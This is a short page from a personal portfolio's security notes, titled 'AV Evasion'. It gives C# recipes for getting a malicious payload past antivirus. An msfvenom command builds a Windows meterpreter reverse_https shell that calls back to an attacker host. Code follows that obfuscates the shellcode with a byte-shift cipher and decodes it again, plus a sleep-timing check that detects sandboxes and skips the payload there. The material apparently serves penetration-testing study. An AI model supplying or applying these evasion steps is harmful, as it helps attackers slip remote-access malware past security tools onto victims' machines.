

repository: jh1h1h/portfolio · page: docs/general/AV Evasion.html · generator: docusaurus

## C#

### Using Caesar Substitution
1. `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<kali ip> LPORT=<port> EXITFUNC=thread -f csharp`
2. In Visual Studio, new Console App, paste this code in Main(). Make sure the namespace title is same as the title of the project:
```
<output from 1>
    
byte[] encoded = new byte[buf.Length];
for(int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
}

StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach(byte b in encoded)
{
    hex.AppendFormat("0x{0:x2}, ", b);
}

Console.WriteLine("The payload is: " + hex.ToString());
```
3. Make sure the dropdowns on the left of 'Start' at the top bar is set to 'Release' and 'x64' (or other depending on victim OS)
4. Click Build -> Build Solution
5. Find the .exe in `<project folder>/bin/x64/Release` and run it in command line. The bytes should be printed out.
6. Replace your old payload with this new encoded payload
7. Below the payload, add this code to be able to decode the payload:
```
for(int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
```
8. Remember to rebuild your solution to update your c# exe

### Add a sleep timer
Heuristic tests often timeskip past any time.sleep commands. So we use time.now before and after time.sleep(2), and if 2 seconds haven't actually passed, it means we are in a heuristic test and avoid running anything dangerous to get detected.

Add these to the start of your C# code:
```
...
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
        
static void Main(string[] args)
{
    DateTime t1 = DateTime.Now;
    Sleep(2000);
    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
    if(t2 < 1.5)
    {
        return;
    }
...
```
